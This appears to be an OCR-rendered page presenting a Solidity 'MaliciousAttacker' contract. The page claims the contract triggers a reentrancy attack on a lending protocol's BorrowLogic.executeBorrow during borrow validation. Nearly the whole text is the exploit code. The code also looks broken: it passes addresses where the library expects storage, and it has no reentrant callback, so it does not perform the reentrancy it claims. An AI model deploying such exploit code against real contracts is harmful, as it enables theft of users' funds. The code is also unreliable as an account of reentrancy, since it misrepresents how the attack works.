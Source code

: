 The following is an illustrative contract that can trigger the reentrancy attack by invoking `executeBorrow` within a malicious `ValidationLogic.validateBorrow` call:

```solidity
// Malicious contract to exploit reentrancy vulnerability
pragma solidity ^0.8.10;

import {BorrowLogic} from './BorrowLogic.sol';
import {ValidationLogic} from './ValidationLogic.sol';
import {DataTypes} from '../types/DataTypes.sol';

contract MaliciousAttacker {
    address public victimAddress;
    address public borrowLogicContract;
    address public user;

    constructor(address _victimAddress, address _borrowLogicContract, address _user) {
        victimAddress = _victimAddress;
        borrowLogicContract = _borrowLogicContract;
        user = _user;
    }

    // Malicious function to initiate the reentrancy attack
    function attack() external {
        // Perform the first borrow
        uint256 amountToBorrow = 1000;
        DataTypes.ExecuteBorrowParams memory params = DataTypes.ExecuteBorrowParams({
            asset: victimAddress,
            user: user,
            onBehalfOf: user,
            amount: amountToBorrow,
            interestRateMode: DataTypes.InterestRateMode.VARIABLE,
            releaseUnderlying: true,
            reservesCount: 1,
            oracle: address(0),
            userEModeCategory: 0,
            priceOracleSentinel: address(0),
            referralCode: 0
        });

        // Calling the victim contract to initiate the borrow, which will call ValidationLogic.validateBorrow
        BorrowLogic.executeBorrow(
            victimAddress, 
            victimAddress, 
            victimAddress, 
            params
        );
    }
}

```
